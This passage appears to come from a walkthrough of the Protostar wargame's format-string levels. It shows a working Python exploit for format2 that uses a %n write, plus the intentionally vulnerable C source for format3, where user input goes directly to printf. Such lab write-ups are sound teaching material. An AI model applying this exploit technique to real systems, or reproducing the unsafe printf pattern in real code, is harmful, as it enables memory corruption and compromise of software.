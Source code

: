 We can accomplish this by using ***width length*** like `%60x`, which tells printf to print 60 spaces.

Here is my updated exploit:

``` shell
user@protostar:/opt/protostar/bin$ python -c 'print "\xe4\x96\x04\x08" + "%60x%4$n"' | ./format2

you have modified the target :)
```

## Format 3

Description:

>This level advances from format2 and shows how to write more than 1 or 2 bytes of memory to the process. This also teaches you to carefully control what data is being written to the process memory.<br>
>This level is at /opt/protostar/bin/format3

Source code:

``` c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int target;

void printbuffer(char *string)
{
  printf(string);
}

void vuln()
{
  char buffer[512];

  fgets(buffer, sizeof(buffer), stdin);

  printbuffer(buffer);
  
  if(target == 0x01025544) {
      printf("you have modified the target :)\n");
  } else {
      printf("target is %08x :(\n", target);
  }
}

int main(int argc, char **argv)
{
  vuln();
}
```

